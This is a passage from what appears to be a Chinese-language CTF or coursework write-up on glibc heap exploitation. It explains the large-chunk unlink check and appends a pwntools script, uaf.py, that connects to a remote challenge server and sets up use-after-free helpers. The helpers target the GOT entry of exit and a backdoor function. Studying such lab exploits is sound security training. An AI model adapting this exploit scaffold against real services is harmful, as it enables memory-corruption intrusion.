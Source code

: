```c
            }                                                                    \
        }                                                                        \
    }
```

由于0x5f0显然是大于0x400的，因此`!in_smallbin_range(chunksize_nomask(P))`为1，若`__builtin_expect(P->fd_nextsize != NULL, 0)`再为1，就会进入下一个code block，因此要让`P->fd_nextsize`不为1。

# Appendix

## exploit/uaf.py

```python
import pwn
from pwnlib.util.packing import p64, u64
import code


pwn.context(arch='amd64', os='linux', log_level='INFO')

binary = pwn.ELF('./crackme/02_uaf/uaf')

got_exit = binary.got['exit']
addr_backdoor = binary.sym['backdoor']

conn = pwn.remote('47.99.80.189', 10030)
conn.recvuntil('ID:\n')
conn.sendline('3180103012')

# conn = pwn.process('crackme/02_uaf/uaf')


def add_ddl_conn(time: str = 'time', content: str = 'content'):
    conn.recvuntil('Your chocie:\n')
    conn.sendline('1')
    conn.recvuntil('please input the ddl time\n')
    conn.sendline(time)
    conn.recvuntil('please input the ddl content\n')
    conn.sendline(content)


def finish_ddl_conn(index: int):
    conn.recvuntil('Your chocie:\n')
    conn.sendline('2')
    conn.recvuntil('please input the ddl index\n')
    conn.sendline(str(index))


def edit_ddl_conn(index: int, time: str = 'time', content: str = 'content'):
    conn.recvuntil('Your chocie:\n')
    conn.sendline('4')
    conn.recvuntil('please input the ddl index\n')
    conn.sendline(str(index))
    conn.recvuntil('please input the new ddl time\n')
    conn.sendline(time)
    conn.recvuntil('please input the new ddl content\n')
    conn.sendline(content)


def exit_ddl_conn():
    conn.recvuntil('Your chocie:\n')
    conn.sendline('5')
```